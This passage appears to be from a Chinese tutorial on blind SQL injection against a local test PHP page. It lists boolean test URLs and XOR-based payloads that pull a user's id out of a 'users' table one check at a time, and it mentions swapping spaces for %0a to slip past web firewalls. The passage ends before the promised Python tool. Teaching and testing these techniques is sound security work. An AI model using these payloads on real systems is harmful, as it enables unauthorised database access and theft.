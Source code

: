 ```
http://192.168.137.129/info.php?num=1=0
http://192.168.137.129/info.php?num=1=1

```

自然也能使用其它的运算符。

```
http://127.0.0.1/info.php?num=1<>0
http://127.0.0.1/info.php?num=1<>1

http://127.0.0.1/info.php?num=1<0
http://127.0.0.1/info.php?num=1<1

http://127.0.0.1/info.php?num=1*0*0*1
http://127.0.0.1/info.php?num=1*0*0*0

http://127.0.0.1/info.php?num=1%1%1%0
http://127.0.0.1/info.php?num=1%1%1%1

http://127.0.0.1/info.php?num=1 div 0
http://127.0.0.1/info.php?num=1 div 1

http://127.0.0.1/info.php?num=1 regexp 0
http://127.0.0.1/info.php?num=1 regexp 1

http://127.0.0.1/info.php?num=1^0
http://127.0.0.1/info.php?num=1^1

```

攻击示例：

```
http://127.0.0.1/info.php?num=0^(locate(0x61,(select id from users where num=1),1)=1)
http://127.0.0.1/info.php?num=0^(select position(0x61 in (select id from users where num=1))=1)
http://127.0.0.1/info.php?num=0^(reverse(reverse((select id from users where num=1)))=0x61646d696e)
http://127.0.0.1/info.php?num=0^(lcase((select id from users where num=1))=0x61646d696e)
http://127.0.0.1/info.php?num=0^((select id from users where num=1)=0x61646d696e)
http://127.0.0.1/info.php?num=0^(id regexp 0x61646d696e)
http://127.0.0.1/info.php?num=0^(id=0x61646d696e)
http://127.0.0.1/info.php?num=0^((select octet_length(id) from users where num=1)=5)
http://127.0.0.1/info.php?num=0^((select character_length(id) from users where num=1)=5)

If I will show all attack, I have to take much time, So I stopped in this time. Blind SQL Injection is difficult manually, So using tool will be more effective. I will show a tool made python, this is an example using ^(XOR) bitwise operation. In order to make the most of detouring the web firewall, I replaced space with %0a.

```

展示所有的攻击过程将会浪费我大量的时间，所以到此为止。手工盲注是很困难的，所以使用工具会更有效。下面是一个python写的工具，这是一个使用异或运算的例子。为了绕过大多数的web防火墙，我将空格换成了%0a。
